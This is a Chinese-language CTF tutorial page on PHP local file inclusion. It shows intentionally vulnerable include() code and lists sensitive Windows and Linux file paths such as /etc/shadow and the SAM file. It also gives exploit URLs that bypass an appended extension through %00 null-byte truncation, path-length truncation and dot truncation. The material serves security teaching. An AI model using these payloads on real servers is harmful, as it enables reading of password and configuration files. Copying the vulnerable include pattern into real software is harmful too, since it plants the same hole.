



# 本地文件包含漏洞
###无限制本地文件包含漏洞

测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename);
?>
```
测试结果：

通过目录遍历漏洞可以获取到系统中其他文件的内容


####常见的敏感信息路径
#####Windows系统

c:\boot.ini // 查看系统版本
c:\windows\system32\inetsrv\MetaBase.xml // IIS配置文件
c:\windows\repair\sam // 存储Windows系统初次安装的密码
c:\ProgramFiles\mysql\my,ini // MySQL配置
c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root
c:\windows\php.ini // php 配置信息
c:\windows\my.ini
……

#####Linux/Unix系统

/etc/passwd // 账户信息
/etc/shadow // 账户密码文件
/usr/local/app/apache2/conf/httpd.conf // Apache2默认配置文件
/usr/local/app/apache2/conf/extra/httpd-vhost.conf // 虚拟网站配置
/usr/local/app/php5/lib/php.ini // PHP相关配置
/etc/httpd/conf/httpd.conf // Apache配置文件
/etc/my.conf // mysql 配置文件
###有限制本地文件包含漏洞绕过
####%00截断
条件：
allow_url_fopen = Off    
php版本<5.3.4

测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename . ".html");
?>
```
测试结果：
```
http://www.ctfs-wiki.com/FI/FI.php?filename=../../../../../../../boot.ini%00
```
通过%00截断了后面的html


####路径长度截断
条件：windows OS，点号需要长于256；linux OS 长于4096

windows下目录最大长度为256字节，超出的部分会被丢弃

linux下目录最大长度为4096字节，超出的部分会被丢弃

测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename . ".html");
?>
```
EXP:
```
http://www.ctfs-wiki.com/FI/FI.php?filename=test.txt/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././

```
测试结果：
发现已经成功截断后面的.html，成功包含了test.txt文件

####点号截断
条件：windows OS，点号需要长于256

测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename . ".html");
?>
```
EXP:
```
http://www.ctfs-wiki.com/FI/FI.php
?filename=test.txt.................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................
```
测试结果：
发现已经成功截断后面的.html，成功包含了test.txt文件


